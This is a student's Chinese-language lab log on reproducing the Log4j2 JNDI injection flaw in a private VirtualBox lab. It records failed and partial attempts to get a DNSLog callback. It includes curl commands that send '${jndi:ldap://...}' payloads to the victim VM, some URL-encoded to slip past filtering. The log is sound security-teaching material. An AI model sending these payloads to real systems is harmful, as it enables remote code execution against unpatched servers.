






# log4j2漏洞实验-dnslog无解析记录-尝试解决过程记录

## 实验环境

* VirtualBox 虚拟机 7.0.14
* 主机配置：

| 主机 | 系统版本 | ip地址 |
| ----- | ----- | ----- |
| kali-victim | kali-linux-2024.2 | 192.168.146.8 |
| kali-attacker | kali-linux-2024.2 | 192.168.146.11 |

* java decompiler：JD-gui-1.6.6
* [CEYE](http://ceye.io/)

## 问题描述与尝试解决

- 复刻课件步骤时，尝试如下语句

```
# 使用CEYE DNSLog平台提供的子域名ot74e2.ceye.io
curl -X POST http://192.168.146.8:11002/hello -d payload='"${jndi:ldap://ot74e2.ceye.io/exp}"'
```

- 报错显示不支持```POST```请求



- 使用```Java Decompiler```反编译容器内拉出的源码，可以看到与课件内不同，实验中实际使用的漏洞代码为```Getmapping```方法而非课件中的```Postmapping```方法



- 于是尝试改为用```GET```方法发包：

```
curl -X GET http://192.168.146.8:11002/hello -d payload='"${jndi:ldap://ot74e2.ceye.io}"'
```

- 回显```OK```，但查看·``平台并没有解析记录



- 参考了[【Vulfocus漏洞复现】log4j2-cve-2021-44228](https://blog.csdn.net/weixin_45632448/article/details/124149561)，尝试使用```--data-urlencode```参数对```payload```进行编码，让特殊符号绕过目标服务器的检测，同时使用```-v```参数使其输出详细信息



- 可以看到```payload```部分已经编码，回显```ok```但仍无解析记录

- 参考第一个答辩的小组分享，尝试修改一些参数。即```payload```替换为```test```，```ldap```替换为```dns```等

- 第一次尝试性实验时成功出现一次解析记录



- 但第二次使用相同语句进行实验时，又不再出现解析记录了。猜测可能是目标网页会过滤掉重复请求（？）或是其他网络问题



## 参考链接

[1] [【Vulfocus漏洞复现】log4j2-cve-2021-44228](https://blog.csdn.net/weixin_45632448/article/details/124149561)